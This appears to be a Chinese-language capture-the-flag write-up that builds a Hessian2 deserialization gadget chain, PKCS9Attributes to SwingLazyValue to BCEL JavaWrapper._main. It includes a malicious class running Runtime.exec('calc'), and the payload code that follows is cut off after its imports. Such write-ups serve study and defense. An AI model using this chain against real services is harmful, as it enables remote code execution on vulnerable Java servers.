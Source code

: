 
题目给出的 hint 中，有一个toString利用链：[https://x-stream.github.io/CVE-2021-21346.html](https://x-stream.github.io/CVE-2021-21346.html)
```
javax.swing.MultiUIDefaults#toString
	UIDefaults#get
		UIDefaults#getFromHashTable
			UIDefaults$LazyValue#createValue
			SwingLazyValue#createValue
				javax.naming.InitialContext#doLookup()
```
`sun.swing.SwingLazyValue#createValue`可以调用任意静态方法或者一个构造函数
![](https://img-blog.csdnimg.cn/20192ce23e59455989bd47c04cdc6654.png)

但是发现没法使用：
- `javax.swing.MultiUIDefaults`是package-private类，只能在`javax.swing.`中使用，而且Hessian2拿到了构造器，但是没有setAccessable，newInstance就没有权限
- 所以要找链的话需要类是public的，构造器也是public的，构造器的参数个数不要紧，hessian2会自动挨个测试构造器直到成功


需要找个类替代`MultiUIDefaults`，由于`UIDefaults`是继承Hashtable的 ，所以需要从toString()到HashTable.get()

注意：**Hessian可以反序列化未实现 Serializable 接口的类**

### PKCS9Attributes+SwingLazyValue+JavaWrapper._mian
找到`sun.security.pkcs.PKCS9Attributes`
![](https://img-blog.csdnimg.cn/20e12bd10dd34c7395031dccc9d7b8a6.png)

跟进getAttribute
![](https://img-blog.csdnimg.cn/f3dab55ce6be4e078bd5ca295f8c7f80.png)

这个`this.attributes`刚好是个HashTable

接下来就是找一个类，调用其静态public方法，找到：`com.sun.org.apache.bcel.internal.util.JavaWrapper`的`_mian`方法
![](https://img-blog.csdnimg.cn/cda54bd08c74415e93e6edb88c910845.png)

看到实例化一个JavaWrapper，进入wrapper.runMain
![](https://img-blog.csdnimg.cn/14bb2f607b3f4254970b4cee1977def1.png)

使用反射调用了类的`_main`方法，只需要给类里面加一个`_main`方法即可实现命令执行

看到loader.loadClass
![](https://img-blog.csdnimg.cn/fca1f46e817e44fcba5df510bd542ede.png)

发现是一个bcel classloader，写一个恶意类：
```java
public class test {
    public static void _main(String[] argv) throws Exception {
        Runtime.getRuntime().exec("calc");
    }
}
```
payload：
```java
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import sun.reflect.ReflectionFactory;
import sun.security.pkcs.PKCS9Attribute;
import sun.security.pkcs.PKCS9Attributes;
import sun.swing.SwingLazyValue;

```